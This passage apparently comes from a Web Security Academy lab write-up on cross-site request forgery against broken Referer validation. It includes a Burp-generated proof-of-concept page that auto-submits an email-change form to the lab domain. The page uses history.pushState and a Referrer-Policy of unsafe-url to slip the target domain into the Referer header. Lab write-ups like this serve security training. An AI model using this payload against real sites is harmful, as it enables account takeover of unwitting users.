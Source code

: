 

It is necessary to update “history.pushState” in the CSRF PoC and add the vulnerable domain as a parameter of the url:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a2c007d0457217b8686cbaf0006004c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test3&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?0a2c007d0457217b8686cbaf0006004c.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```



![img](images/CSRF%20with%20broken%20Referer%20validation/7.png)


And it is also necessary to send a “Referrer-Policy” value of “unsafe-url” in the Head section to send the whole URL in the Referer header:

```
Referrer-Policy: unsafe-url
```

